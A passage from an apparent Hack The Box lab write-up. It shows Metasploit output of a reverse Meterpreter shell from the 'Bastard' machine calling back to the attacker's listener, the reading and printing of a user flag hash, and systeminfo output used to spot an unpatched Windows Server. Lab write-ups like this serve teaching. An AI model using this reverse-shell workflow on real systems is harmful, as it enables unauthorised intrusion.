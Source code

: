 Now we got a reverse shell as a user "authority\isur".
{% highlight shell %}
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.36:1338 
[*] Sending stage (206403 bytes) to 10.10.10.9
[*] Meterpreter session 1 opened (10.10.14.36:1338 -> 10.10.10.9:49242) at 2020-01-11 00:39:37 +0200

meterpreter > getuid
Server username: NT AUTHORITY\IUSR
meterpreter >
{% endhighlight %}

"user.txt" is in the directory "C:\Users\dimitris\Desktop".
{% highlight shell %}
meterpreter > pwd
C:\users\dimitris\desktop

meterpreter > cat ./user.txt
ba22fde1932d06eb76a163d312f921a2

meterpreter >
{% endhighlight %}


### 3. Getting Root

By running "systeminfo", we can figure out that this server is Windows Server 2008 without any hotfix.<br>
This means that this OS is fresh install and no update was given.
{% highlight shell %}
C:\Users\Administrator\Desktop>systeminfo
systeminfo
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          11/1/2020, 1:15:17 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.565 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.578 MB
Virtual Memory: In Use:    517 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A